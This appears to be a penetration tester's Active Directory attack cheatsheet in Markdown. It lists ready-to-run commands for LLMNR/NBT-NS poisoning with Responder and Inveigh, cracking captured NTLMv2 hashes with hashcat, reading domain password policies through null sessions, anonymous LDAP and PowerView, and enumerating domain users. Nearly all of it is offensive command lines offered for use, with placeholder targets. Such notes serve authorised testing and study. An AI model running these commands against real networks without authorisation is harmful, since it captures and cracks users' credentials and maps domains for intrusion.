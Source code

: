 # AD Cheatsheet
## LLMNR/NBT-NS Poisoning
**From Linux**
```bash
sudo responder -I <NETWORK_INTERFACE>
```
```shell-session
hashcat -m 5600 password.hash /usr/share/wordlists/rockyou.txt 
```

**From Windows**
```powershell-session
Import-Module .\Inveigh.ps1
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```

```powershell-session
.\Inveigh.exe
```

---

## Password Policies
**With Credentials**
```shell-session
crackmapexec smb IP_ADDR -u USRNAME -p PASSWORD --pass-pol
```

**SMB NULL Sessions**
```shell-session
rpcclient -U "" -N 172.16.5.5
rpcclient $> getdompwinfo
```
```shell-session
enum4linux -P IP_ADDR
```

**LDAP Anonymous Bind**
```shell-session
ldapsearch -h IP_ADDR -x -b "DC=DOMAIN,DC=COM" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
```

**With net.exe & PowerView**
```cmd-session
net accounts
```

```powershell-session
import-module .\PowerView.ps1
Get-DomainPolicy
```

---

## User Enumeration
**SMB NULL Session**
```shell-session
enum4linux -U IP_ADDR  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
```
